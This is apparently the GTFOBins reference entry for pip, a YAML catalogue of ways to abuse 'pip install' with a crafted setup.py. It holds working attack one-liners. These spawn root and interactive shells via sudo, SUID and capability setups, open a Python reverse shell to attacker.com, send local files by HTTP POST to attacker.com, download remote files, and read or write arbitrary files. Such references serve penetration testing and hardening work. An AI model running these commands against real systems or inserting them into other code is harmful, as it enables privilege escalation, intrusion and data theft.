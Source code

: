 ```yaml
---
description: |
  More generally, this allows to execute arbitrary Python code. See the [Python](/gtfobins/python/) functions.
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        pip install $TF
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp -d)
        echo 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")' > $TF/setup.py
        pip install $TF
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' > $TF/setup.py
        pip install $TF
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
        pip install $TF
  download:
    - description: Fetch a remote file via HTTP GET request. It needs an absolute local file path.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=/tmp/file_to_save
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])' > $TF/setup.py
        pip install $TF
  file-write:
    - description: It needs an absolute local file path.
      code: |
        TF=$(mktemp -d)
        echo 'open("/tmp/file_to_write","w+").write("DATA")' > $TF/setup.py
        pip install $TF
  file-read:
    - description: The read file content is corrupted as wrapped within an exception error.
      code: |
        TF=$(mktemp -d)
        echo 'raise Exception(open("file_to_read").read())' > $TF/setup.py
        pip install $TF
  load-library:
    - code: |
        TF=$(mktemp -d)
        echo 'from ctypes import cdll; cdll.LoadLibrary("lib.so")' > $TF/setup.py
        pip install $TF
  suid-enabled:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-p', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        ./pip install $TF
  sudo-enabled:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        sudo pip install $TF
  capabilities-enabled:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.setuid(0); os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        ./pip install $TF
---
```

